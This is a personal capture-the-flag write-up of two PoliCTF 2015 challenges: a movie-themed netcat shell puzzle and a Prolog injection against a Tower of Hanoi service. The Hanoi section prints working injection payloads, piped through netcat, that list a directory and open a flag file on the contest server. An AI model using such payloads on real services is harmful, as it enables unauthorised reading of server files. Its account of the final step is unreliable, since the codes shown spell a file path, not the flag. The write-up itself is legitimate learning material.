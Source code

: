 ```yaml
---
layout: post
title: "Poli CTF 2015"
published: false
---
```


#Poli CTF 2015

PoliCTF is a 48 hour, jeopardy style capture-the-flag competition that will be held both online and open to all competitors and live for a restricted number of participants. The competition will start during the second day of the DIMVA 2015 conference that will be held in Milan (Italy). This is the first time I have competed in this CTF. Thank you to the team who put these challenges together!

This is the first CTF I have done in quite a while, so suffice to say I am currently out of practice and overthought many of the challenges. However I still had heaps of fun, and i'm looking forward to practicing for the next CTF!

http://polictf.it/

##Challenge Writeups


###GrabBag

####Hard Interview - 50 Points

This challenge was a great lesson in learning about not overthinking easy challenges!

So we start off with this:
>**interview.polictf.it:80**

Visit the address through your browser, and you'll receive a page that only displays the following text:
```
         ____                                     __                              __      
        /\  _`\                                  /\ \__                          /\ \__   
        \ \ \/\ \     __   _____      __     _ __\ \ ,_\   ___ ___      __    ___\ \ ,_\  
         \ \ \ \ \  /'__`\/\ '__`\  /'__`\  /\`'__\ \ \/ /' __` __`\  /'__`\/' _ `\ \ \/  
          \ \ \_\ \/\  __/\ \ \L\ \/\ \L\.\_\ \ \/ \ \ \_/\ \/\ \/\ \/\  __//\ \/\ \ \ \_ 
           \ \____/\ \____\\ \ ,__/\ \__/.\_\\ \_\  \ \__\ \_\ \_\ \_\ \____\ \_\ \_\ \__\
            \/___/  \/____/ \ \ \/  \/__/\/_/ \/_/   \/__/\/_/\/_/\/_/\/____/\/_/\/_/\/__/
                             \ \_\                                                        
                              \/_/                                                        
                     ___      ____               ___                                
                   /'___\    /\  _`\           /'___\                               
              ___ /\ \__/    \ \ \/\ \     __ /\ \__/   __    ___     ____     __   
             / __`\ \ ,__\    \ \ \ \ \  /'__`\ \ ,__\/'__`\/' _ `\  /',__\  /'__`\ 
            /\ \L\ \ \ \_/     \ \ \_\ \/\  __/\ \ \_/\  __//\ \/\ \/\__, `\/\  __/ 
            \ \____/\ \_\       \ \____/\ \____\\ \_\\ \____\ \_\ \_\/\____/\ \____\
             \/___/  \/_/        \/___/  \/____/ \/_/ \/____/\/_/\/_/\/___/  \/____/
                                                                            
                                                                            
____ ____ ____ ___ ____ _ ____ ___ ____ ___     ____ ____ ____ ____ ____ ____    ____ _  _ _    _   _ 
|__/ |___ [__   |  |__/ | |     |  |___ |  \    |__| |    |    |___ [__  [__     |  | |\ | |     \_/  
|  \ |___ ___]  |  |  \ | |___  |  |___ |__/    |  | |___ |___ |___ ___] ___]    |__| | \| |___   |   


fish@sword:~$  GET: command not found
fish@sword:~$  Host:: command not found
fish@sword:~$  Connection:: command not found
fish@sword:~$  Accept:: command not found
fish@sword:~$  User-Agent:: command not found
fish@sword:~$  Accept-Encoding:: command not found
fish@sword:~$  Accept-Language:: command not found
fish@sword:~$  
: command not found
fish@sword:~$ 
```
The browser's HTTP request being entered as commands is a fairly good indication that we need something more appropriate to access this system. [Netcat](https://en.wikipedia.org/wiki/Netcat)would handle connecting to port 80.
```
nc interview.polictf.it 80
```
Attempting any of the traditional bash commands will result in "command not found". 

```
fish@sword:~$ ls
 ls: command not found
```
After a slew of failed commands, the solution was much more simple - typing in "help" was surprisingly helpful!
```
fish@sword:~$ help
 A very hard interview: Codename Blow...Fish
Maybe you can help me with something...
DOD d-base, 128 bit encryption...What do you think?
Maybe slide in a Trojan hose hiding a worm...
I have been told that best "crackers" in the world can do it in 60 minutes, unfortunately I need someone who can do it in 60 seconds... naturally with the right incentives ;)
If you know what I mean, tell me how a real cracker accesses to a remote super protected server...

Possible commands:
hacker: Write code as a real hacker
help: Give information about the program
hint: Gives a little hint
exit: Loser...bye bye
ssh: A tiny ssh command
date: A very useful and innovative feature
```
The hacker command will literally print out "hacker" code to the screen [as if it was being typed by you](http://hackertyper.net/)! And the date command simply prints a date. Hint provides you with:
```
useage:  ssh username@address
address: a not so easily reachable IP address
Very simple...isn't it?
```
If you haven't picked it up already, this challenge is based around the interview scene in the movie [Swordfish](https://en.wikipedia.org/wiki/Swordfish_(film). I brought up a video of the [interview scene](https://www.youtube.com/watch?v=zfy5dFhw3ik) on YouTube and watched it. After alot of pausing and squinting, I realised that there is an IP address that looks fairly out of place, and a frame that stood out to me.
```
fish@sword:~$ ssh admin@312.5.125.233
 flag{H4ll3_B3rry's_t0pl3ss_sc3n3_w4s_4ls0_n0t4bl3}
```
Success!
---

###Pwnable

####Hanoi as a Service - 50 Points

I really enjoyed this challenge as I learned alot from it. It was also the first time that I have encounted the programming language [Prolog](https://en.wikipedia.org/wiki/Prolog) as well techniques on how to approach these types of challenges.

>HANOI AS A SERVICE
>50 Points
>Check out our shiny new HaaS platform!
>nc haas.polictf.it 80

 When you netcat into the service you recieve the following message:
 
``` 
Welcome to the Hanoi-as-a-Service cloud platform!
How many disks does your tower have?
```
Lets enter the number 3.
```
3
* Move top disk from a to b
* Move top disk from a to b
* Move top disk from a to b
* Move top disk from a to b
* Move top disk from a to b
* Move top disk from a to b
* Move top disk from a to b
```
This would be a nifty service if we were looking to play [Tower of Hanoi](https://en.wikipedia.org/wiki/Tower_of_Hanoi), however we want to see how we can attack this service to find the flag.

Lets try some unexpected input, I entered the letter "w", which returned:
```
ERROR: Prolog initialisation failed:
ERROR: </2 Arithmetic: 'w/0' is not a function
```
Interesting! [Prolog](https://en.wikipedia.org/wiki/Prolog) is a general purpose logic programming language, a quick google search reveals a [handy list of commands](http://www.swi-prolog.org/pldoc/man?section=builtin) to try. Some of the unsuccessful approaches I tried were:
- Attempting to overflow the process by providing it with large input, however the code we dumped later showed that it had been coded to avoid processing input larger than 15 characters long.
- Certain commands, such as 'shell()' were rejected with a one of three random messages, such as "Nope.", "What are you trying to do!?!" and "Sorry thats not implemented!".

After some failed commands revealed the directory structure, this allowed me to focus my efforts on reaching the folders above, as it would likely be where the flag was hidden.
```
root@kali:~# nc haas.polictf.it 80
Welcome to the Hanoi-as-a-Service cloud platform!
How many disks does your tower have?
2), debug 2 ?- trace
ERROR: Prolog initialisation failed:
ERROR: Syntax error: Operator expected
ERROR: hanoi(2), debug 
ERROR: ** here **
ERROR: 2 ?- trace) . 
Exception in thread Thread-1 (most likely raised during interpreter shutdown):
Traceback (most recent call last):
  File "/usr/lib/python2.7/threading.py", line 810, in __bootstrap_inner
  File "/usr/lib/python2.7/threading.py", line 763, in run
  File "/home/ctf/haas/haas-proxy.py", line 36, in listen
  File "/usr/lib/python2.7/subprocess.py", line 796, in communicate
  File "/usr/lib/python2.7/subprocess.py", line 1376, in wait
  File "/usr/lib/python2.7/subprocess.py", line 476, in _eintr_retry_call
<type 'exceptions.OSError'>: [Errno 10] No child processes
```
The 'working_directory' command seemed like the best command to try here...
```
echo '2), working_directory(CWD, "/home/ctf/haas/"), ls %'|nc haas.polictf.it 80
Welcome to the Hanoi-as-a-Service cloud platform!
How many disks does your tower have?
* Move top disk from a to c
* Move top disk from a to b
* Move top disk from c to b
haas			haas-proxy.py			jhknsjdfhef_flag_here
```
This is fantastic - the flag is sitting right there in that folder! After much reading and trial and error, the final command was crafted:
```
echo '2), open("/home/ctf/haas/jhknsjdfhef_flag_here", read, Stream), read_line_to_codes(Stream,Codes), write(Codes) %'|nc haas.polictf.it 80
Welcome to the Hanoi-as-a-Service cloud platform!
How many disks does your tower have?
* Move top disk from a to c
* Move top disk from a to b
* Move top disk from c to b
ERROR: Prolog initialisation failed:
ERROR: open/3: source_sink '[47,104,111,109,101,47,99,116,102,47,104,97,97,115,47,106,104,107,110,115,106,100,114,104,101,102,95,102,108,97,103,95,104,101,114,101]' does not exist (No such file or directory)
```
After converting the flag from decimal to ascii the flag was revealed!
```
flag{Pr0gramm1ng_in_l0g1c_1s_c00l}
```



---
